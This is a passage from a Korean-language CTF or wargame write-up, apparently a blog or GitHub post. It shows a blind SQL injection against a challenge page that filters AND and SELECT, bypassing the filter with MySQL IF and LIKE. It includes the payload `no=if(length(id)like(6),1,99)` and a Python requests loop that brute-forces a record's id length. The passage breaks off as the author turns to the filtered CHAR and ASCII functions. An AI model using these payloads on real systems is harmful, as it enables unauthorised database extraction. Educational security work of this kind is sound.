 이로써, Blind SQL Injection을 시도해볼 수 있을 것으로 예상된다. 하지만 `AND, SELECT`등의 SQL 문법이 필터링되어 있다.

MySQL에서 사용될 수 있는 조건문으로는 `IF`도 있음을 해당 사이트에서 찾았으니 참고하시길 바랍니다.([조건문 정리 SITE](https://velog.io/@pm1100tm/MySQL-%EC%A1%B0%EA%B1%B4%EB%AC%B8-%EC%A0%95%EB%A6%AC))

### MySQL IF 조건

```sql
SELECT IF(2 > 1, 'TRUE', 'FALSE') AS result
```

이처럼 **IF(조건, 참일 때 값, 거짓일 때 값)**으로 확인 할 수 있다. 우리는 참일 때는 1, 2와 같이 Apple 혹은 Banana를 띄우고, 거짓일 때는 no=4, 5, 6 처럼 아무것도 출력을 안하는 값을 넣는다면 Blind SQL Injection이 가능할 것이다. 또한, `like` 연산자를 통해 `=` 처럼 사용할 수 있다.

```sql
SELECT * FROM SAMPLE WHERE text like 'test_content';
```

이렇게 된다면 SAMPLE Table에서 test Column에서 'test_content'가 있다면 SELECT 하는 것처럼 `like`를 `=`처럼 사용하면 된다.

### Blind SQLi

#### id 글자 수 확인
그러면 우리가 해당 조건을 통해 사용할 문법은 아래와 같다.

```sql
no=if(length(id)like(6),1,99)
```

이렇게 해당 값이 옳다면 **no=1**로 Request하여 Apple이 나올 것이다. 그리고 우리는 no=3의 id를 알아야 하므로 두번째 인자를 **3**으로 변경하고 진행하겠습니다.

```python
i = 0 

def findIDLength(i):
    while True:
        sqli = url + 'if(length(id)like(' + str(i) + '),3,99)'
        r = requests.get(sqli, headers = headers, cookies = cookies)
        if (r.text).find('Apple') != -1 :
            print(f'ID LENGTH : {i}')
            return i
        i += 1

if __name__ == '__main__':
    idlength = findIDLength(i)
```

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/187924268-297dbe70-dbde-4d06-a90a-c111ada1a0c6.jpg" width = 360>
</p>

> 이렇게 no=3의 id 길이는 **열 한 글자**인 것을 알 수 있다.

#### id 확인

이제 첫 글자가 무엇인지 Blind하면 되는데 `CHAR`, `ASCII` 모두 필터링되어 있다. 그렇다면 어떻게 값을 넣으면 될까?
